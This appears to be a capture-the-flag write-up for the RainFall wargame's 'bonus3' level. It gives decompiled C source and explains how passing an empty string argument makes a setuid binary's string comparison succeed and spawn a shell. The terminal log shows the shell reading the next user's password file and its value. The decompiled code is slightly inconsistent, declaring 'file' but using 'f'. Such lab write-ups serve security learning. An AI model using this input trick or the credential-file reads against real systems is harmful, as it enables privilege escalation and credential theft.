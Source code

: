# Bonus 3

<h3>source.c</h3>

```console
int main(int argc, char** argv) {
	char str[132];
	void* file = fopen("/home/user/end/.pass", "r");

	memset(str, 0, 132);
	if ((file == 0) || (argc != 2)) {
    return(-1);
  }
	else
	{
		fread(str, 1, 66, f);
		str[65] = 0;
		str[atoi(argv[1])] = 0;
		fread(&str[66], 1, 65, f);
		fclose(f);
		if (strcmp(str, argv[1]) == 0) {
      execl("/bin/sh", "sh", NULL);
    }
		else {
      puts(&str[66]);
    }
	}
	return (0);
}
```

<h3>Analysis</h3>

In this program, we can see that it is taking only 1 arg,

At the start of the program, it is reading the `.pass` and save it into the `file` pointer

After checking that the `file` contain no error and the user have put only 1 arg for the program, it will put the content of the file into the local str variable

Next, it will assign a `0` of null string into index 65 of the `str` and another `0` at the index gotten by the atoi of `argv[1]`

This could means the user can cut short the content of `str` depending on the input it gave to the program.

The next fread is trying to read from the `file` again and save it on the index 66 onward, but not sure what it is trying to achieve

After the file is close, the program will do some comparison between the `str` and `argv[1]` to see if there are equal

Since `str` is potentiatially storing the `pass`, we will have no way to get the `argv[1]` right without knowing what is the `pass`

Our goal will be to make `str` and `argv[1]` as equal so we could spawn the shell

<h3>Exploit</h3>

Since `argv[1]` will be converted into int and be used as the index to assign `0` to the `str`

We could potentially cut the `str` short by putting `0` as the input for `argv[1]`

We can try to put `0` for the input, but then the result will become like this

```console
str[atoi(argv[1])] = 0;
str[atoi(0)] = 0;
str[0] = 0;
str[0] = '\0' or end of string

argv[1] = "0" the char of 0
```

This will not work because they are not the same

But instead we can put `""` as the input for `argv[1]` an this will be the result

```console
str[atoi(argv[1])] = 0;
str[atoi("")] = 0;              -> atoi("") will return 0 as there is nothing to be converted
str[0] = 0;
str[0] = '\0' or end of string

argv[1] = ""  there is nothing here
```

`strcmp(str, argv[1])` will be equal to 0, as there will be nothing compare to nothing, so they are equal

```console
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password:
end@RainFall:~$ ls -l
total 4
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```